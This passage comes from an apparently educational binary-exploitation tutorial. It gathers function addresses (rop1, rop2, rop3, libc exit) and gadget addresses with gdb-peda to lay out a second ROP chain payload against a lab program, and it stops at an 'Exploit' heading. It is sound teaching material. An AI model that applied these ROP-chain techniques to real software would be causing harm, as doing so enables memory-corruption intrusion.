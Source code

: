 ### Payload

Now that we know how the stack should look like, let's build the payload for our second ROP chain.

First off, let's get addresses of our `rop1`, `rop2`, `rop3` and the libc `exit` functions:

```python
gdb-peda$ p rop1
$4 = {<text variable, no debug info>} 0x565561b9 <rop1>
gdb-peda$ p rop2
$5 = {<text variable, no debug info>} 0x565561e4 <rop2>
gdb-peda$ p rop3
$6 = {<text variable, no debug info>} 0x56556212 <rop3>
gdb-peda$ p exit
$7 = {<text variable, no debug info>} 0xf7e02950 <exit>
```

![rop1, rop2, rop3 and exit function addresses inside rop1b vulnerable program](<../../../.gitbook/assets/image (941).png>)

Let's also note the `popret` and `pop2ret` gagdet addresses:

![ROP gadget addresses for rop1b vulnerable program](<../../../.gitbook/assets/image (942).png>)

Since we now know how the stack needs to look like and we have addresses for our functions and ROP gadgets, we can visualize our payload like this:

![Visualized payload for the 2nd ROP chain](<../../../.gitbook/assets/image (963).png>)

### Exploit
